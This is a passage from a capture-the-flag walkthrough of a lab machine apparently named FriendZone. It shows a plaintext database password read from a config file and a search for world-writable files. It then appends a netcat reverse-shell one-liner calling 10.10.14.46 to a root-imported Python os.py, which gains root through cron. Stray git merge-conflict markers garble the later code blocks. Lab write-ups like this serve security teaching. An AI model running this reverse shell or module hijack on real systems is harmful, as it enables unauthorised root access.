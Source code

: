 In that config file we'll find the database user and the db they can log into:

```
www-data@FriendZone:/$ cat /var/www/mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
www-data@FriendZone:/$ 
```

### Root Flag 

Look for files with 777 permissions

Command
```
find / -type f -perm -0777 -ls 2>/dev/null

20473     28 -rwxrwxrwx   1 root     root        25910 Jan 15  2019 /usr/lib/python2.7/os.py

```

We find a python script - os.py. This python script is owned by root but anyone can execute it. 

The os python script is a module that allows for system interaction. 

Enumerate processes and cron jobs
```
ps auxwf | grep cron

root        404  0.0  0.3  31320  3172 ?        Ss   Jan24   0:00 /usr/sbin/cron -f
friend    18204  0.0  0.1  14428  1004 pts/0    S+   02:21   0:00  | 
```

Download the `pspy64` script and put it in the Development directory

Execute it on the target machine
![[Pasted image 20240124203830.png]]

A python script `/opt/server_admin/reporter.py` is being executed by root via a cron job. It is also importing the os module we previously discovered that can be run by everyone.

Append the below reverse shell one liner to the end of the os.py file. When cron executes this file, we will gain root access. Why? Because the reporter.py script is ran with root privileges.

```
echo "system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.46 8000 >/tmp/f')" >> /usr/lib/python2.7/os.py
>>>>>>> main
```


```
nc -nlvp 8000

<<<<<<< HEAD



=======
listening on [any] 8000 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.10.123] 36112
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -l
```